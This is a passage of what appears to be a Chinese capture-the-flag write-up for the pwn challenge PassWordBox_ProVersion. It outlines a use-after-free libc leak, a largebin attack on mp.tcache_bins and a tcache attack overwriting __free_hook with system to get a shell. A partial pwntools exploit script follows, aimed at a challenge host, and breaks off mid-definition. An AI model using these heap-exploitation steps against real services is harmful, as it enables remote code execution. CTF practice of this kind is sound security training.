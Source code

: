 ### <a class="reference-link" name="PassWordBox_ProVersion"></a>PassWordBox_ProVersion
1. recover存在UAF，unsortedbin泄露libc
1. largebin attack改大mp.tcache_bins，制造tcache
1. tcache attack打__free_hook，改system
1. 释放binsh块，getshell
```
#coding:utf-8

from pwn import *
import subprocess, sys, os
from time import sleep

sa = lambda x, y: p.sendafter(x, y)
sla = lambda x, y: p.sendlineafter(x, y)

elf_path = './pwdPro'
ip = '47.104.71.220'
port = 49261
remote_libc_path = './libc.so'

context(os='linux', arch='amd64')
context.log_level = 'debug'

def run(local = 1):
    global elf
    global p
    if local == 1:
        elf = ELF(elf_path, checksec = False)
        p = elf.process()
    else:
        p = remote(ip, port)
def debug(cmd=''):
    # context.terminal = []
    gdb.attach(p,cmd)
    pause()
def one_gadget(filename = remote_libc_path):
    return map(int, subprocess.check_output(['one_gadget', '--raw', filename]).split(' '))

def str2int(s, info = '', offset = 0):
    ret = u64(s.ljust(8, '\x00')) - offset
    success('%s ==&gt; 0x%x'%(info, ret))
    return ret
def chose(idx):
    sla('Input Your Choice:\n', str(idx))
def fadd(idx, size, content = '\0'*8+'\n', ID = '\n'):
    chose(1)
    sla('Which PwdBox You Want Add:\n', str(idx))
    sa('Input The ID You Want Save:', ID)
    sla('Length Of Your Pwd:', str(size))
    sa('Your Pwd:', content)
def add(idx, size, content = '\n', ID = '\n'):
    chose(1)
    sla('Which PwdBox You Want Add:\n', str(idx))
    sa('Input The ID You Want Save:', ID)
    sla('Length Of Your Pwd:', str(size))
    sa('Your Pwd:', key(content))
def edit(idx, content):
    chose(2)
    sla('Which PwdBox You Want Edit:\n', str(idx))
    sleep(1)
    p.send(content)
def show(idx):
```